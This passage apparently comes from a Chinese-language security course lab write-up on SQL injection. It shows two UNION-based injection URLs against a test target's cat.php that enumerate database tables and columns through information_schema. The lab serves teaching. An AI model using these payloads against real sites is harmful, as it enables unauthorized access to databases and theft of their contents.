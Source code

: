  根据上面的查询，可以结合之前的URL利用UNION进行注入,使用victim测试以下语句：

   1.获取所有表格的列表  `http://vulnerable/cat.php?id=1 UNION SELECT 1,table_name ,3,4 FROM information_schema.tables`
​         ![10](https://github.com/CUCCS/2018-NS-Public-jackcily/raw/Ns_chap0x07_%E4%BB%8ESQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/img/10.PNG)
​         

2.获取所有列的列表   `http://vulnerable/cat.php?id=1 UNION SELECT 1,column_name ,3,4 FROM information_schema.columns`